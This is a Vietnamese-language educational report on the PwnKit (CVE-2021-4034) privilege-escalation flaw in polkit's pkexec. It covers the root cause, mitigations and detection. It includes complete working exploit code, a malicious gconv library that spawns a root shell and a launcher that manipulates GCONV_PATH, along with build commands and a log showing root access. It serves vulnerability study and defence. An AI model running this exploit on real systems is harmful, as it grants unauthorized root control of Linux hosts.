



# BÁO CÁO KHAI THÁC LỖ HỔNG PwnKit (CVE-2021-4034)

## 1. Giới Thiệu

### 1.1 PwnKit là gì?

PwnKit là tên gọi của một lỗ hổng leo quyền nghiêm trọng (được theo dõi với CVE-2021-4034) được phát hiện trong Polkit (trước đây là PolicyKit), một công cụ dành cho Linux để quản lý quyền truy cập. Lỗ hổng này được Qualys phát hiện và công bố vào tháng 1 năm 2022, mặc dù nó đã tồn tại hơn 12 năm trong mã nguồn của Polkit.

### 1.2 Polkit và pkexec là gì?

**Polkit** (trước đây là PolicyKit) là một framework trên hệ điều hành Linux dùng để kiểm soát quyền truy cập vào các tài nguyên hệ thống. Nó giúp các ứng dụng không chạy với quyền root nhưng vẫn có thể yêu cầu các quyền đặc biệt khi cần thiết.

**pkexec** là một tiện ích dòng lệnh được cung cấp bởi Polkit, tương tự như sudo, cho phép người dùng chạy lệnh với quyền root hoặc quyền của một người dùng khác nếu được cấp phép. Khi được gọi, pkexec kiểm tra các chính sách và quyền liên quan để xác định xem lệnh có thể thực thi với quyền nâng cao hay không. Tuy nhiên, nếu không được kiểm soát chặt chẽ, pkexec có thể bị lợi dụng để leo thang đặc quyền.

**Đặc điểm của pkexec:**

- Được cài đặt mặc định trên nhiều bản phân phối Linux.
- Cho phép thực thi lệnh dưới quyền của người dùng khác nếu được cấp phép.
- Có cơ chế kiểm tra quyền thông qua Polkit.
- Nếu bị khai thác, có thể bị lạm dụng để thực thi mã tùy ý với quyền root.

### 1.3 Tầm quan trọng của lỗ hổng

Lỗ hổng PwnKit cho phép kẻ tấn công leo thang đặc quyền từ người dùng bình thường để kiểm soát toàn bộ hệ thống. Đặc biệt nghiêm trọng vì:

1. **Mức độ phổ biến rộng rãi**: Ảnh hưởng đến hầu hết các bản phân phối Linux phổ biến (Ubuntu, Debian, Fedora, CentOS, v.v.)
2. **Thời gian tồn tại lâu dài**: Đã tồn tại từ tháng 5 năm 2009 (hơn 12 năm)
3. **Dễ khai thác**: Không yêu cầu cấu hình đặc biệt hay điều kiện phức tạp
4. **Tác động nghiêm trọng**: Cho phép thực thi mã với quyền root đầy đủ

## 2. Khai Thác Lỗ Hổng

### 2.1 Nguyên nhân kỹ thuật

Lỗ hổng PwnKit xuất phát từ việc pkexec không kiểm tra đúng số lượng và nội dung của tham số truyền vào. Cụ thể:

- Khi được gọi mà không có đối số nào, pkexec vẫn cố gắng truy cập argv[1].
- Nếu argv[1] chưa được khởi tạo, việc truy cập này có thể ghi đè bộ nhớ, dẫn đến tình trạng ghi ngoài vùng nhớ (out-of-bounds write).
- Ngoài ra, pkexec có thể bị lợi dụng để nạp và thực thi mã độc thông qua cơ chế GCONV. Điều này cho phép kẻ tấn công tải thư viện độc hại và thực thi mã tùy ý với quyền root.
- Kẻ tấn công có thể kiểm soát nội dung của vùng nhớ bị ghi đè này, từ đó thực thi mã tùy ý với quyền root.

**Phân tích mã nguồn có lỗi:**

Phân tích chi tiết mã nguồn lỗi:

Trong mã nguồn pkexec (trước khi được vá), có đoạn sau:

```c
int main(int argc, char *argv[]) {
    const char *path;
    ...
    path = g_strdup(argv[1]); // Truy cập argv[1] mà không kiểm tra argc
    ...
}
```

=> Vấn đề: Khi `argc < 2` (tức không có đối số dòng lệnh), `argv[1]` sẽ là `NULL` hoặc trỏ đến vùng bộ nhớ không xác định. Việc `g_strdup(argv[1])` sẽ dẫn đến `Undefined Behavior`, có thể truy cập hoặc sao chép dữ liệu nằm trong `envp` --- nơi chứa biến môi trường mà kẻ tấn công kiểm soát.

---

Mô phỏng rõ lỗi qua Stack Layout:

Khi chương trình `pkexec` chạy mà không có đối số:

```
Stack layout:

+-----------------------------+
| argv[0] = "pkexec"          |
+-----------------------------+
| argv[1] = NULL              | ← Không tồn tại, nhưng vẫn bị truy cập
+-----------------------------+
| NULL                        | ← Kết thúc argv
+-----------------------------+
| envp[0] = "GCONV_PATH=."    | ← Bị đọc nhầm thành argv[1]!
+-----------------------------+
| envp[1] = "CHARSET=evil"    |
+-----------------------------+
| envp[2] = "SHELL=evil"      |
+-----------------------------+
| ...                         |
+-----------------------------+
```

=> Vì không kiểm tra `argc`, `pkexec` vô tình truy cập nhầm `envp[0]`, và sử dụng giá trị `"GCONV_PATH=."` làm đầu vào cho `g_strdup(argv[1])`.

=> Sau đó, nó sử dụng chuỗi đó như là chương trình cần thực thi → dẫn đến nạp mô-đun gconv giả, được tạo ra bởi kẻ tấn công.

---

Hậu quả từ lỗi nhỏ:

- Lỗi truy cập sai argv do thiếu kiểm tra `argc` là nguyên nhân gốc rễ.
- Kết hợp với cách Linux tổ chức stack (argv/envp sát nhau), kẻ tấn công dễ dàng làm "nhiễu" giá trị `argv[1]` thông qua `envp[]`.
- Điều này mở ra đường cho `pkexec` nạp thư viện độc (`evil.so`) từ mô-đun gconv → shell root

### 2.2 Cách khai thác chi tiết

Khai thác lỗ hổng PwnKit bao gồm các bước sau:

1. **Tạo một thư viện độc hại (evil-so.c):**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

Mã này tạo một thư viện động giả mạo để pkexec tải vào, giúp thực thi shell với quyền root.

2. **Viết mã khai thác (exploit.c)**:

```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main() {
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    
    return 0;
}
```

Mã này thiết lập môi trường độc hại, tạo thư mục `GCONV_PATH`, sao chép thư viện độc hại và chạy `pkexec`.

3. **Biên dịch và thực thi khai thác**:

```bash
# Biên dịch
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit

# Chạy khai thác
./exploit
```

Lệnh này sẽ kích hoạt pkexec với thư viện độc hại, mở shell root.

### 2.3 Phân tích chi tiết mã khai thác

**1. Khai báo thư viện và định nghĩa hằng số**

```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"
```

- #include <stdio.h>: Sử dụng để nhập/xuất dữ liệu (ví dụ: printf()).
- #include <stdlib.h>: Chứa các hàm như system() và execve(), cần thiết để thực thi lệnh hệ thống.
- BIN: Xác định đường dẫn của pkexec, chương trình mà chúng ta khai thác.
- DIR: Định nghĩa thư mục chứa thư viện gconv giả mạo (evildir).
- EVILSO: Định nghĩa tên thư viện độc hại (evil.so).

**2. Khai báo biến môi trường**

```c
char *envp[] = {
    DIR,
    "PATH=GCONV_PATH=.",
    "SHELL=ryaagard",
    "CHARSET=ryaagard",
    NULL
};

char *argv[] = { NULL };
```

- envp[]: Danh sách biến môi trường để ép pkexec tải thư viện độc hại.
- DIR: Định nghĩa thư mục chứa module gconv giả (evildir).
- PATH=GCONV_PATH=.: Thiết lập biến GCONV_PATH trỏ đến thư mục hiện tại (.), để pkexec tìm kiếm module gconv giả.
- SHELL=ryaagard: Định nghĩa giá trị SHELL giả mạo (tên module gconv giả).
- CHARSET=ryaagard: Gán bộ mã ký tự (CHARSET) thành ryaagard, điều này sẽ buộc pkexec tải thư viện gconv giả.
- argv[]: Danh sách đối số truyền vào pkexec (để trống, vì lỗ hổng xuất hiện khi argc == 1).

**3. Tạo thư mục và tập tin giả**

```c
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
```

- mkdir GCONV_PATH=.: Tạo một thư mục giả mạo có tên GCONV_PATH=.
- touch GCONV_PATH=./evildir: Tạo một tập tin có tên evildir (dùng để đánh lừa pkexec).
- chmod 777 GCONV_PATH=./evildir: Cấp quyền đọc, ghi, thực thi cho tất cả người dùng.

**4. Tạo thư mục chứa module gconv giả**

```c
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
```

- mkdir evildir: Tạo thư mục evildir, nơi chứa thư viện gconv giả.
- echo 'module INTERNAL ryaagard// evil 2' > evildir/gconv-modules:
  - Khai báo một module gconv giả có tên ryaagard.
  - Gán module ryaagard trỏ đến thư viện độc hại evil.so.
  - INTERNAL: Đánh dấu module này không thực hiện chuyển đổi thực sự, chỉ dùng để tải thư viện.

**5. Sao chép thư viện độc hại**

```c
system("cp " EVILSO ".so " DIR);
```

- cp evil.so evildir/: Chép thư viện độc hại (evil.so) vào thư mục evildir/.

**6. Thực thi pkexec với môi trường giả**

```c
execve(BIN, argv, envp);
```

- Gọi execve() để chạy /usr/bin/pkexec với danh sách biến môi trường envp[].

pkexec sẽ:
- Tìm kiếm module gconv dựa vào GCONV_PATH=.
- Tải gconv-modules giả.
- Nạp thư viện evil.so.
- Chạy mã trong evil.so, giúp kẻ tấn công thực thi lệnh với quyền root.

### 2.4 Khai thác

**Phiên bản khai thác:**

* Hệ điều hành (OS): Ubuntu 20.04



* Kernel: 5.4.0-107-generic



* Phiên bản pkexec: 0.105




**Kết Quả:**

```shell
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function 'gconv_init':
evil-so.c:9:5: warning: implicit declaration of function 'setgroups'; did you mean 'getgroups'? [-Wimplicit-function-declaration]
   9 | setgroups(0);
     | ^~~~~~~~~~
     | getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
  10 | execve("/bin/sh", NULL, NULL);
     | ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function 'main':
exploit.c:23:5: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]
  23 | execve(BIN, argv, envp);
     | ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so evil-so.c exploit exploit.c Makefile
h13u@ubuntu:~/tmp$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
#
```


## 3. Mức Độ Nghiêm Trọng và Tác Động

### 3.1 Đánh giá CVSS

Lỗ hổng PwnKit có **mức độ nghiêm trọng cao với điểm CVSS (Common Vulnerability Scoring System) là 7.8** dựa trên các yếu tố sau:

- **Độ phức tạp tấn công**: Thấp
- **Quyền yêu cầu**: Thấp (chỉ cần quyền người dùng thông thường)
- **Phạm vi ảnh hưởng**: Không thay đổi
- **Tác động bảo mật**: Cao (đề cao quyền lên root)
- **Tác động toàn vẹn**: Cao
- **Tác động khả dụng**: Cao

### 3.2 Hệ thống bị ảnh hưởng

Lỗ hổng ảnh hưởng đến gần như tất cả các bản phân phối Linux chính, bao gồm nhưng không giới hạn:

- Ubuntu (tất cả các phiên bản)
- Debian
- Fedora
- Red Hat Enterprise Linux
- CentOS
- Arch Linux
- Gentoo
- Alpine Linux
- và nhiều bản phân phối khác

### 3.3 Tác động cụ thể

Lỗ hổng cho phép:

1. **Leo thang đặc quyền**: Người dùng cục bộ không đặc quyền có thể chiếm quyền root đầy đủ
2. **Bỏ qua các kiểm soát truy cập**: Vượt qua cơ chế bảo mật Polkit và các cài đặt sudo
3. **Kiểm soát hệ thống**: Thực thi mã độc hại với quyền hạn cao nhất trên hệ thống
4. **Cài đặt malware bền vững**: Với quyền root, kẻ tấn công có thể cài đặt backdoor bền vững khó phát hiện

## 4. Phòng Chống và Khắc Phục

### 4.1 Cập nhật bản vá

Ngay sau khi lỗ hổng được công khai vào tháng 1/2022, các nhà phát triển của nhiều bản phân phối Linux đã phát hành bản vá. Cách tốt nhất để bảo vệ hệ thống là **cập nhật hệ điều hành ngay lập tức** bằng các lệnh:

**Cho Ubuntu/Debian:**
```bash
sudo apt update
sudo apt upgrade
```

**Cho Fedora/RHEL/CentOS:**
```bash
sudo dnf update
```

**Cho Arch Linux:**
```bash
sudo pacman -Syu
```

### 4.2 Các biện pháp khắc phục

Nếu không thể cập nhật ngay, có thể áp dụng các biện pháp sau:

- **Vô hiệu hóa setuid trên pkexec**:
  ```bash
  sudo chmod 0755 /usr/bin/pkexec
  ```

- **Hạn chế quyền thực thi** pkexec qua chính sách:
  ```bash
  echo 'polkit.addRule(function(action, subject) {
      if (action.id == "org.freedesktop.policykit.exec") {
          return polkit.Result.NO;
      }
  });' | sudo tee /etc/polkit-1/rules.d/00-disable-pkexec.rules
  ```

- **Gỡ bỏ pkexec** khỏi hệ thống (cực đoan, có thể ảnh hưởng đến tính năng khác):
  ```bash
  sudo rm /usr/bin/pkexec
  ```

### 4.3 Phát hiện xâm nhập

Để phát hiện các nỗ lực khai thác:

- **Giám sát logs** của hệ thống, đặc biệt là các logs liên quan đến pkexec
- **Theo dõi việc tạo đột ngột các file thực thi với quyền root**
- **Kiểm tra các thư mục bất thường** được tạo với định dạng GCONV_PATH=
- **Sử dụng các công cụ phát hiện xâm nhập** như OSSEC, Wazuh hoặc CrowdStrike

**Lưu ý: Báo cáo chỉ mang tính chất mô phỏng lại khai thác CVE-2021-4034 để phục vụ mục đích học tập.**